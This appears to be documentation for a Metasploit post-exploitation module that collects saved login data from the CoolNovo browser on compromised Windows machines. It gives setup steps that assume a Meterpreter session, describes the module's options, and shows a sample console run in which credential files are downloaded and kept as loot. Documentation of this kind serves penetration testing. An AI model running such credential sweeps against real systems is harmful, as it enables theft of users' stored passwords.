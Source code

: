 ## Module Description

This post-exploitation module gathers artifacts found on coolnovorelated folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/coolnovo
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
  ```
msf6 post(windows/gather/credentials/coolnovo) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Coolnovo's parent folder found
[*] Coolnovo's Login data file found
[*] Downloading C:\Users\IEUser\AppData\Local\MapleStudio\ChromePlus\User Data\Default\Login Data
[*] Coolnovo Login data downloaded
[+] File saved to:  /root/.msf4/loot/20210521113236_default_192.168.56.106_coolnovoLoginDa_081407.bin

[+] File with data saved:  /root/.msf4/loot/20210521113236_default_192.168.56.106_EXTRACTIONSLogin_425391.bin
[*] Coolnovo's parent folder found
[*] Coolnovo's Login data file found
[*] Downloading C:\Users\IEUser\AppData\Local\MapleStudio\ChromePlus\User Data\Default\Login Data
[*] Coolnovo Login data downloaded
[+] File saved to:  /root/.msf4/loot/20210521113236_default_192.168.56.106_coolnovoLoginDa_739589.bin

[+] File with data saved:  /root/.msf4/loot/20210521113237_default_192.168.56.106_EXTRACTIONSLogin_857688.bin
[*] PackRat credential sweep Completed
[*] Post module execution completed
  ```